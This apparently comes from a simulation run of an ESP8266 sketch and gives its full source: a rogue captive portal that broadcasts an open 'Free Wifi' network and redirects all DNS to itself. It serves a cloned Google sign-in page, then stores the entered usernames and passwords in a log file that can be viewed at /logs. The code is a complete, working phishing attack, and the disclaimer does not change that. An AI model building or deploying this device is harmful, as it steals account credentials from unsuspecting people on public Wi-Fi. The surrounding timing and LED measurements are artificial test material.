
A sketch run on a simulated ESP8266 (NodeMCU). Shown: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW), the last lines printed to the serial monitor. Dashed ring = blinking. The test bench sets the inputs (shaded band). Storage starts empty.

Above: at 6.9 s.
7.0 s: HTTP request GET /validate received
At 7.13 s:

10.0 s: HTTP request GET /validate?url=1 received
At 12.8 s:

13.0 s: HTTP request GET /validate?url=0 received
At 13.38 s:

Timing chart, 0 to 16.8 s (numbered marks = the images above; inputs shaded):


The sketch:

FakeCaptivePortal.ino
```cpp
/*
 *
 * This is only a proof-of-concept.  I am not responsible for your actions.
 * Obey all local, state, federal, and international laws!
*/
#include <ESP8266WiFi.h>
#include <WiFiClient.h>
#include <ESP8266WebServer.h>
#include <DNSServer.h>
#include <ESP8266mDNS.h>
#include <FS.h>
#include "google.h"


#define LOGFILE "/log.txt"

/*
 *************************
 * ACCESS POINT SSID
 * ***********************
 */
const char *ssid="Free Wifi";

/*
 *************************
 * LOGIN CAPTURE PAGE
 * ***********************
 */
#define captivePortalPage GOOGLE_HTML


// Basic configuration using common network setups (usual DNS port, IP and web server port)
const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 4, 1);
IPAddress netMsk(255, 255, 255, 0);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// Buffer strings
String webString="";
String serialString="";

// Blink the builtin LED n times
void blink(int n)
{
  for(int i = 0; i < n; i++)
  {
    digitalWrite(LED_BUILTIN, LOW);
    delay(250);
    digitalWrite(LED_BUILTIN, HIGH);
    delay(250);
  }
}

void setup() {
  //Start Serial communication
  Serial.begin(9600);
  Serial.println();
  Serial.println("V2.0.0 - Rouge Captive Portal Attack Device");
  Serial.println();

  // LED setup
  pinMode(LED_BUILTIN, OUTPUT);
  digitalWrite(LED_BUILTIN, HIGH);

  // Initialize file system (SPIFFS) and read the log file, if not present create a new one
  Serial.print("Initializing File System (First time can take around 90 seconds)...");
  SPIFFS.begin();
  Serial.println(" Success!");
  Serial.print("Checking for log.txt file...");
  // this opens the file "log.txt" in read-mode
  File f = SPIFFS.open(LOGFILE, "r");

  if (!f) {
    Serial.print(" File doesn't exist yet. \nFormatting and creating it...");
    SPIFFS.format();
    // open the file in write mode
    File f = SPIFFS.open(LOGFILE, "w");
    if (!f) {
      Serial.println("File creation failed!");
    }
    f.println("Captured Login Credentials:");
  }
  f.close();
  Serial.println(" Success!");

  // Create Access Point
  Serial.print("Creating Access Point...");
  WiFi.setOutputPower(20.5); // max output power
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, netMsk);
  WiFi.softAP(ssid);
  delay(500);
  Serial.println(" Success!");

  // Start DNS Server
  Serial.print("Starting DNS Server...");
  dnsServer.setErrorReplyCode(DNSReplyCode::NoError);
  dnsServer.start(DNS_PORT, "*", apIP);
  Serial.println(" Success!");

  // Check domain name and refresh page
  webServer.on("/", handleRoot);
  webServer.on("/generate_204", handleRoot);  //Android captive portal. Maybe not needed. Might be handled by notFound handler.
  webServer.on("/fwlink", handleRoot);  //Microsoft captive portal. Maybe not needed. Might be handled by notFound handler.
  webServer.onNotFound(handleRoot);

  // Validate and save USER/PASS combinations
  webServer.on("/validate", []() {
    // store harvested credentials
    String url = webServer.arg("url");
    String user = webServer.arg("user");
    String pass = webServer.arg("pass");

    // Sending data to Serial (DEBUG)
    serialString = user+":"+pass;
    Serial.println(serialString);

    // Append data to log file
    File f = SPIFFS.open(LOGFILE, "a");
    f.print(url);
    f.print(":");
    f.print(user);
    f.print(":");
    f.println(pass);
    f.close();

    // Send an error response to the user after credential harvesting
    webString = "<h1>#E701 - Router Configuration Error</h1>";
    webServer.send(500, "text/html", webString);

    // Reset buffer strings
    serialString="";
    webString="";

    blink(5);
  });

  // Logging Page
  webServer.on("/logs", [](){
    webString="<html><body><h1>Captured Logs</h1><br><pre>";
    File f = SPIFFS.open(LOGFILE, "r");
    serialString = f.readString();
    webString += serialString;
    f.close();
    webString += "</pre><br><a href='/logs/clear'>Clear all logs</a></body></html>";
    webServer.send(200, "text/html", webString);
    Serial.println(serialString);
    serialString="";
    webString="";
  });

  // Clear all logs
  webServer.on("/logs/clear", [](){
    webString="<html><body><h1>All logs cleared</h1><br><a href=\"/esportal\"><- BACK TO INDEX</a></body></html>";
    File f = SPIFFS.open(LOGFILE, "w");
    f.println("Captured Login Credentials:");
    f.close();
    webServer.send(200, "text/html", webString);
    Serial.println(serialString);
    serialString="";
    webString="";
  });

  // Start Webserver
  Serial.print("Starting Web Server...");
  webServer.begin();
  Serial.println(" Success!");

  blink(10);

  Serial.println("Device Ready!");
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

void handleRoot() {
  webServer.sendHeader("Cache-Control", "no-cache, no-store, must-revalidate");
  webServer.sendHeader("Pragma", "no-cache");
  webServer.sendHeader("Expires", "-1");

  webServer.send(200, "text/html", captivePortalPage);
}
```

google.h
```cpp
const char GOOGLE_HTML[] = R"=====(
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Google Form</title>
    <link rel="stylesheet" href="google.css">

    <style>
        body {
            margin: 0;
            padding: 0;
            background-size: cover;
            font-family: 'Open Sans', sans-serif;
        }

        .box {
            position: absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            width: 30rem;
            padding: 3.5rem;
            box-sizing: border-box;
            border: 1px solid #dadce0;
            -webkit-border-radius: 8px;
            border-radius: 8px;
        }

        .box h2 {
            margin: 0px 0 -0.125rem;
            padding: 0;
            text-align: center;
            color: #202124;
            font-size: 24px;
            font-weight: 400;
        }

        .box .logo {
            display: flex;
            flex-direction: row;
            justify-content: center;
            margin-bottom: 16px;
        }

        .box p {
            font-size: 16px;
            font-weight: 400;
            letter-spacing: 1px;
            line-height: 1.5;
            margin-bottom: 24px;
            text-align: center;
        }

        .box .inputBox {
            position: relative;
        }

        .box .inputBox input {
            width: 93%;
            padding: 1.3rem 10px;
            font-size: 1rem;
            letter-spacing: 0.062rem;
            margin-bottom: 1.875rem;
            border: 1px solid #ccc;
            background: transparent;
            border-radius: 4px;
        }

        .box .inputBox label {
            position: absolute;
            top: 0;
            left: 10px;
            padding: 0.625rem 0;
            font-size: 1rem;
            color: gray;
            pointer-events: none;
            transition: 0.5s;
        }

        .box .inputBox input:focus ~ label,
        .box .inputBox input:valid ~ label,
        .box .inputBox input:not([value=""]) ~ label {
            top: -1.125rem;
            left: 10px;
            color: #1a73e8;
            font-size: 0.75rem;
            background-color: #fff;
            height: 10px;
            padding-left: 5px;
            padding-right: 5px;
        }

        .box .inputBox input:focus {
            outline: none;
            border: 2px solid #1a73e8;
        }

        .box input[type="submit"] {
            border: none;
            outline: none;
            color: #fff;
            background-color: #1a73e8;
            padding: 0.625rem 1.25rem;
            cursor: pointer;
            border-radius: 0.312rem;
            font-size: 1rem;
            float: right;
        }

        .box input[type="submit"]:hover {
            background-color: #287ae6;
            box-shadow: 0 1px 1px 0 rgba(66,133,244,0.45), 0 1px 3px 1px rgba(66,133,244,0.3);
        }
    </style>
</head>
<body>
  <div class="box">
        <div class="logo">
            <svg viewBox="0 0 75 24" width="75" height="24" xmlns="http://www.w3.org/2000/svg" aria-hidden="true" class="BFr46e xduoyf">
                <g id="qaEJec">
                    <path fill="#ea4335" d="M67.954 16.303c-1.33 0-2.278-.608-2.886-1.804l7.967-3.3-.27-.68c-.495-1.33-2.008-3.79-5.102-3.79-3.068 0-5.622 2.41-5.622 5.96 0 3.34 2.53 5.96 5.92 5.96 2.73 0 4.31-1.67 4.97-2.64l-2.03-1.35c-.673.98-1.6 1.64-2.93 1.64zm-.203-7.27c1.04 0 1.92.52 2.21 1.264l-5.32 2.21c-.06-2.3 1.79-3.474 3.12-3.474z"></path>
                </g>
                <g id="YGlOvc">
                    <path fill="#34a853" d="M58.193.67h2.564v17.44h-2.564z"></path>
                </g>
                <g id="BWfIk">
                    <path fill="#4285f4" d="M54.152 8.066h-.088c-.588-.697-1.716-1.33-3.136-1.33-2.98 0-5.71 2.614-5.71 5.98 0 3.338 2.73 5.933 5.71 5.933 1.42 0 2.548-.64 3.136-1.36h.088v.86c0 2.28-1.217 3.5-3.183 3.5-1.61 0-2.6-1.15-3-2.12l-2.28.94c.65 1.58 2.39 3.52 5.28 3.52 3.06 0 5.66-1.807 5.66-6.206V7.21h-2.48v.858zm-3.006 8.237c-1.804 0-3.318-1.513-3.318-3.588 0-2.1 1.514-3.635 3.318-3.635 1.784 0 3.183 1.534 3.183 3.635 0 2.075-1.4 3.588-3.19 3.588z"></path>
                </g>
                <g id="e6m3fd">
                    <path fill="#fbbc05" d="M38.17 6.735c-3.28 0-5.953 2.506-5.953 5.96 0 3.432 2.673 5.96 5.954 5.96 3.29 0 5.96-2.528 5.96-5.96 0-3.46-2.67-5.96-5.95-5.96zm0 9.568c-1.798 0-3.348-1.487-3.348-3.61 0-2.14 1.55-3.608 3.35-3.608s3.348 1.467 3.348 3.61c0 2.116-1.55 3.608-3.35 3.608z"></path>
                </g>
                <g id="ea4335">
                    <path fill="#ea4335" d="M25.17 6.71c-3.28 0-5.954 2.505-5.954 5.958 0 3.433 2.673 5.96 5.954 5.96 3.282 0 5.955-2.527 5.955-5.96 0-3.453-2.673-5.96-5.955-5.96zm0 9.567c-1.8 0-3.35-1.487-3.35-3.61 0-2.14 1.55-3.608 3.35-3.608s3.35 1.46 3.35 3.6c0 2.12-1.55 3.61-3.35 3.61z"></path>
                </g>
                <g id="idEJde">
                    <path fill="#4285f4" d="M14.11 14.182c.722-.723 1.205-1.78 1.387-3.334H9.423V8.373h8.518c.09.452.16 1.07.16 1.664 0 1.903-.52 4.26-2.19 5.934-1.63 1.7-3.71 2.61-6.48 2.61-5.12 0-9.42-4.17-9.42-9.29C0 4.17 4.31 0 9.43 0c2.83 0 4.843 1.108 6.362 2.56L14 4.347c-1.087-1.02-2.56-1.81-4.577-1.81-3.74 0-6.662 3.01-6.662 6.75s2.93 6.75 6.67 6.75c2.43 0 3.81-.972 4.69-1.856z"></path>
                </g>
            </svg>
        </div>
        <h2>Sign In</h2>
        <p>Use your Google Account</p>
        <form action='/validate' method='GET'>
            <div class="inputBox">
                <input type="email" name="user" required onkeyup="this.setAttribute('value', this.value);" value="">
                <label>Username</label>
            </div>
            <div class="inputBox">
                <input type="text" name="pass" required onkeyup="this.setAttribute('value', this.value);" value="">
                <label>Password</label>
            </div>
             <input type='hidden' name='url' value='google.com'>
            <input type="submit"  value="Sign In">
        </form>
    </div>
</body>
</html>
)=====";
```

Measured:
- after the input at 7.0 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.25 s and LOW for 0.25 s, 10 changes in all, then stays HIGH, starting at once
- after the input at 10.0 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.25 s and LOW for 0.25 s, 10 changes in all, then stays HIGH, starting at once
- after the input at 13.0 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.25 s and LOW for 0.25 s, 10 changes in all, then stays HIGH, starting at once
